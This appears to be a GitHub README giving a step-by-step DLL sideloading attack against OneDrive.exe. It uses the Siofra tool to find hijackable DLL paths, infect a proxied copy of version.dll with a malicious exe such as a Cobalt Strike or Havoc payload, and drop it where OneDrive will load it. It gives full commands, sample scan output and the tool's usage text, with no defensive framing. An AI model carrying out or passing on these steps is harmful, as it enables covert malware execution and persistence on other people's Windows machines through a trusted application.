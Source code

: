 # DLL-SIDELOADING
Dll sideloading using Exe or Dll
What We Need ?
- A malicious exe ( Like generated by Havoc, Cobalt-Strike or using a Dropper)
- A legit dll
- A vulnerable location according to dll to place the malicious one there ( We Can Find It Using The Same Tool).

USAGE:
Clone the repo or download zip.
First we have to find vulnerable location and binaries.
For OneDrive the location of OneDrive.exe is ( C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe )
Open Cmd go to the Siofra location
Use Command : Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe 
You will get the vulnerable location ( Example : 
[!] Module Secur32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\Secur32.dll (real path: C:\WINDOWS\system32\Secur32.dll)
[!] Module VERSION.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll (real path: C:\WINDOWS\system32\VERSION.dll)
[!] Module WININET.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WININET.dll (real path: C:\WINDOWS\system32\WININET.dll)
[!] Module WTSAPI32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WTSAPI32.dll (real path: C:\WINDOWS\system32\WTSAPI32.dll)
)
Make a folder ( For example named : dll-sideloading )
Now copy the dll you want to proxy using the real path to the folder (for  example copy version.dll ( C:\WINDOWS\system32\VERSION.dll ) to the folder)
Also place the malicious dll or exe in the folder
Make a Sub-folder named output
open cmd go to the siofra location 
Use Command : Siofra64.exe --mode infect -f C:\Users\mulware\Desktop\DLL-sideloading\version.dll -o C:\Users\mulware\Desktop\DLL-sideloading\output\version.dll --payload-path C:\Users\mulware\Desktop\DLL-sideloading\malware.exe --payload-type process
The Payload type = For exe ( process ) and for dll ( library )
If successful you will get a malicious dll in output file
Copy the malicious dll in the vulnerable location we find above ( For Example : C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll )
Now Run OneDrive.exe
BOOM !

:::::::::OPTIONAL :::::::::

More Usage : 
*] Siofra version 1.13 usage: Siofra64.exe --mode [Supported modes: "file-scan", "mem-scan" and "infect"] -v [Optional. Output verbosity level]
    Verbosity levels:
        0 - No output
        1 - Only critical success/failure status (default)
        2 - Additional status details for success/failure status, including discarded PEs
        3 - Everything
    File scan mode:
        -f [File or directory to scan]
        -r [Optional. Recursive scan]
        --signed [Optional. Process only signed binaries]
        --delayload [Optional. Include delayload imports in dependency list]
        --explicit-loadlibrary [Optional. Include potentially explicit imports in dependency list (these are *.dll strings which may have been called via LoadLibrary(Ex)A/W]
        --auto-elevate [Optional. Scan only auto-elevate binaries]
    Memory scan mode:
        --pid [Target process ID to scan. When not specified, a list of either 32 or 64-bit process names/PIDs will be enumerated (corresponding to either the 32 or 64-bit version of this tool)]
    Any scan mode:
        --enum-dependency [Enumerate dependencies]
        --show-unmapped-apiset [Optional. Include API sets which failed to map to a module from output (ignored by default)]
        --dll-hijack [Enumerate DLL hijacking vulns]
        --find-module [Optional. Scan dependencies for a specific module. Note that this excludes KnownDLLs]
    Infect mode:
        -f [DLL file to infect]
        -o [Output file]
        --payload-path [Path of DLL to be loaded in to infected DLL at runtime, or path of executable to be launched at runtime]
        --payload-type [The type of payload specified in the parasite payload path. This can be "process" (generally indicating a exe) or "library" (generally indicating a DLL)]

CREDITS : 
https://github.com/cys3c
        
